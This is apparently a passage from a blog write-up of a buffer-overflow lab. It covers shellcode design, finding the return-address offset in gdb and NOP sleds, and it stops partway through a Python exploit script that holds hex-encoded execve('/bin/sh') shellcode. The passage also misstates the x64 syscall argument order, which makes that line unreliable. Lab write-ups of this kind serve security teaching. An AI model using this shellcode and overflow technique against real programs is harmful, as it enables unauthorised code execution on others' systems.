 Rather than dynamically constructing all the necessary data structures on the stack, so their addresses can be obtained from the stack pointer `esp`, data can be stored in the code region, and its address is obtained via the function call mechanism.

<details><summary>My solution to /bin/sh -c "ls -la" using code segment</summary></details>

<details><summary>My solution to /usr/bin/env (supplying environment variables) using code segment</summary></details>

___

Writing 64-bit shellcode is not too different from writing 32-bit shellcode. The differences are mainly in the registers. For the x64 architecture, invoking system call
is done through the syscall instruction, and the first three arguments for the system call are stored in the rdx, rsi, rdi registers, respectively.
<details><summary>64-bit equivalent registers</summary></details>

<br>

###  Launching Attack on a 32-bit Program When the Buffer Size is Known

When exploiting buffer-overflow vulnerabilities, to be successful, you need to know the distance between the buffer's starting position and where the return address is stored.

When the vulnerable program is run, our malicious code is copied on the stack; however, we do not know the memory address of the buffer or base pointer. Since the source code is available to us, we know the buffer size from the code, and we can compile it with the gcc `-g` flag so debugging information can be added to the binary.

<details><summary>Book code for vulnerable program</summary></details>

Now we can get the required values needed to prepare the exploit by running gdb.

![task-1-a](https://github.com/iukadike/blog/assets/58455326/7d9f4274-0a25-4081-bbf3-c90580daefa3)


```
The stack is built from high address to low address (top to bottom).
The return address is stored in $ebp + 4.
This means that the return address is stored in &buffer + (&buffer - $ebp) + 4.
The return address value must contain a value that will jump straight to our shellcode.

Thus, for our exploit to work, we have to replace the return address stored in ($ebp + 4) with a value that will jump straight to our shellcode. But we do not know the address value where our shellcode is stored. To remedy this, we fill the whole buffer with NOPs so that, as long as we can jump to an NOP, we will surely get to our shellcode.

NOPs are used to indicate that no action should be taken at a particular point in the program but rather to advance the program.
```

Thus, the following code can be used to exploit the buffer-overflow vulnerability (note: address randomization is disabled).

```python
#!/usr/bin/python3
import sys

# the actual shellcode
shellcode= (
   "\xeb\x15\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\x8d\x4b"
   "\x08\x31\xd2\xb0\x0b\xcd\x80\xe8\xe6\xff\xff\xff\x2f\x62\x69\x6e"
   "\x2f\x73\x68\x2a\x41\x41\x41\x41\x42\x42\x42\x42"
).encode('latin-1')


# Fill the content with NOP's.
content = bytearray(0x90 for i in range(517)) 
```